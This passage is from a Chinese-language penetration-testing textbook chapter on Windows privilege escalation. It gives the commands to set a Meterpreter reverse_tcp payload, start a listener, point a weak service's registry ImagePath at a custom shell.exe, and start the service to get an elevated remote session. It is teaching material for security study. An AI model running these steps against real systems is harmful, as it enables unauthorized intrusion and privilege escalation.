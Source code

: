     `set payload /windows/x64/meterpreter/reverse_tcp`

    现在，我们需要配置模块选项。在这种情况下，我们需要配置 `LHOST` 和 `LPORT` 选项，如下图所示：

    ![图 9.18 – Meterpreter 有效载荷选项    ](img/B17389_09_018.jpg)

    图 9.18 – Meterpreter 有效载荷选项

1.  设置模块选项后，我们可以通过运行以下命令来启动监听器：

    `run`

    监听器将监听来自我们使用 `MSFvenom` 生成的自定义可执行文件的任何传入连接。

1.  现在，我们可以修改目标注册表服务的 `ImagePath` 值，并将其设置为我们生成的自定义可执行文件的路径。可以通过在目标的 Windows 命令行中运行以下命令来完成：

    `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\regsvc" /t REG_EXPAND_SZ /v ImagePath /d "C:\Temp\shell.exe" /f`

    如果成功，新的值应该被写入。现在，服务将在下次启动或重启时执行我们的自定义可执行文件。

1.  我们可以通过在 Windows 命令行中运行以下命令来启动服务：

    `sc start regsvc`

1.  服务现在将执行我们的自定义可执行文件，并在我们设置的监听器上提供提升权限的 Meterpreter 会话，如下图所示：

![图 9.19 – 提升权限的 Meterpreter 会话](img/B17389_09_019.jpg)

图 9.19 – 提升权限的 Meterpreter 会话

现在，你应该对如何识别 Windows 注册表中的配置错误有了清晰的理解，并且知道如何利用这些错误来提升你在目标系统上的权限。

# 总结

在本章中，我们了解了 Windows 注册表的工作原理以及它如何存储数据。接着，我们探索了如何识别和利用 Windows 中的 Autorun 功能来提升权限。我们还探讨了如何利用 Windows 中的 AlwaysInstallElevated 功能，通过手动或自动的方式（使用 Metasploit）提升权限。最后，我们了解了如何利用弱注册表服务权限进行攻击。

在下一章中，我们将通过探索识别和利用内核漏洞的过程，开始在 Linux 上进行权限提升过程。
